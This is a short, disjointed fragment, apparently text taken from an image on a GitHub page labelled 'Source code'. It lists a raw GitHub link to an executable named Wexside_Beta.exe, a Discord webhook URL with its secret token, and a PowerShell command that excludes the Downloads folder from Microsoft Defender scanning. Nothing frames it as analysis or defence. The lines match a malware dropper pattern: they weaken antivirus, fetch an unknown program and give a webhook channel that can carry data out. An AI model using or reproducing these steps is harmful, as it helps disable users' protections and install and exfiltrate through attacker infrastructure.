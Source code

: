 https://raw.githubusercontent.com/hdtds/wexsaid-epta/main/Wexside_Beta.exe
https://discord.com/api/webhooks/1369382557908602881/uyv_yweGK1st9v2ffA4ZwrDZF9IYEGg82ktRP4m8iK8-xo2BgL0XkiSMwK1XQQYqJUP1
Add-MpPreference -ExclusionPath $env:USERPROFILE\Downloads
